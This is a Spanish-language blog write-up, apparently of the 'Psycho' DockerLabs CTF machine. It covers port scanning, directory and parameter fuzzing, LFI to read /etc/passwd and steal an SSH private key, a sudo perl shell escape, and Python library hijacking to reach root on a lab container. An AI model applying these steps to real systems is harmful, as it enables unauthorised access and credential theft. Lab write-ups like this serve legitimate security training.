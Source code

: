 ```yaml
---
title: "PSYCHO DOCKERLABS"
date: 2025-05-18 10:00:00 +0000
categories: [DockerLabs]
tags: [DockerLabs, CTF]
image: /assets/img/DockerLabs/MachinePsycho/machine.png
---
```




La máquina Psycho de la plataforma DockerLabs es un reto de nivel fácil orientado a quienes están comenzando en el mundo del pentesting.
Es ideal para reforzar conocimientos sobre análisis de puertos, fuzzing, técnicas de enumeración web, y uso de herramientas comunes como Nmap, Gobuster, Wfuzz y GTFObins.



## INFORMACIÓN GENERAL

- **Plataforma**: Dockerlabs
- **Sistema Operativo**: Linux
- **Dificultad**: Fácil


## DESPLIEGUE
```bash
bash auto_deploy.sh psycho.tar
```
![despliegue](/assets/img/DockerLabs/MachinePsycho/despliegue.png)

## RECONOCIMIENTO
```bash
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 172.17.0.2 -oN ports
```
```bash
# Nmap 7.94SVN scan initiated Sat Mar  1 20:14:56 2025 as: nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV -oN ports 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-03-01 20:14:56 -05 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLmfDz6T3XGKWifPXb0JRYMnpBIhNV4en6M+lkDFe1l/+EjBi+8MtlEy6EFgPI9TZ7aTybt2qudKJ8+r3wcsi8w=
|   256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHtGVi9ya8KY3fjIqNDQcC9RuW20liVFDd+uUEgllPzQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  1 20:15:04 2025 -- 1 IP address (1 host up) scanned in 8.82 seconds
```
## ENUMERACION
![weberro](/assets/img/DockerLabs/MachinePsycho/PAGINA_ERROR.png)

Podemos fijarnos que hay un mensaje en la parte izquiera final de la web, indicando un error, como si una solicitud se estuviera tramitando mal
ya esto nos recuerda un poco a la Vulnerabilidad de LFI, realizaremos una fuerza bruta para descubrir directorios por detrás con gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml,csv,txt,html -t 20 -b 500,502,404
```
![gobuster](/assets/img/DockerLabs/MachinePsycho/gobuster.png)

Vemos que tenemos una carpetita `assets`, si sapeamos es una imagen, eh aplicado esteganografia para ver si hay data oculta pero no hay nada

![assets](/assets/img/DockerLabs/MachinePsycho/assets.png)

index.php nos dirige a la misma web, entonces vamos a aplicar un Fuzzing para ver si descubrimos un parametro y explotar un posible LFI
```bash
wfuzz -c --hc=404,500 --hw=169 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/index.php?FUZZ=whoami'
```
![Wfuzz](/assets/img/DockerLabs/MachinePsycho/wfuzz.png)
## EXPLOTACION
Como vemos tenemos un parámetro secret incluido en el index.php, vamos a la URL modificamos y tratamos de leer el `/etc/passwd` y bingo
tenemos 2 Usuarios que son: vaxei y luisillo 

![users](/assets/img/DockerLabs/MachinePsycho/users.jpg)

Entonces la unica forma que tenemos de aprovechar un inicio de sesión por ssh es con el id_rsa de los usuarios, pero para esto se tiene que apicar un Path Transversal porque asi nomas no deja y ojo: eh buscado el id_rsa del user Luisillo y no hay, solo se encuentra el de user vaxei

![id_rsa_vaxei](/assets/img/DockerLabs/MachinePsycho/id_rsa_vaxei.png)

extraemos el id_rsa y copiamos en un archivo que crearemos en nuestra maquina atacante, IMPORTANTE: darle permiso `chmod 600 id_rsa`

![permisos_id_rsa](/assets/img/DockerLabs/MachinePsycho/permisos_id_rsa.png)

```bash
ssh -i id_rsa vaxei@172.17.0.2
```
![login_vaxei](/assets/img/DockerLabs/MachinePsycho/login_vaxei.png)

## ESCALADA DE PRIVILEGIOS
La manera mas sencilla hacer 
```bash
sudo -l
```
si no, podemos aprovechar permisos SUID pero este no es el caso, podemos observar que el usuario Luisillo puede ejecutar `/usr/bin/perl`, es decir nos convertiremos primero en luisillo para luego escalar a root

![gtfobins](/assets/img/DockerLabs/MachinePsycho/gtfobins.png)

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```
![luisillo](/assets/img/DockerLabs/MachinePsycho/luisillo.png)

Volvemos a realizar un `sudo -l` con el usuario luisillo y vemos que podemos ejecutar comandos con todos los permisos pero en un solo archivo específico

![pivi_luisillo](/assets/img/DockerLabs/MachinePsycho/privi_luisillo.png)



al poder ver el contenido del archivo ``paw.py`, podemos aplicar una tecnica llamada *Python Library Jihacking*, para poder secuestrar una libreria y al 
momento de ejecutar el script, se ecute el script llamado igual que la libreria y ganar acceso

![subprocess](/assets/img/DockerLabs/MachinePsycho/subprocess.png)


ejecutamos el paw.py y hemos ganado acceso como root

![root](/assets/img/DockerLabs/MachinePsycho/root.png)


# ELIMINAR LA MAQUINA
```bash
Ctrl + C
```

# GRACIAS POR LEER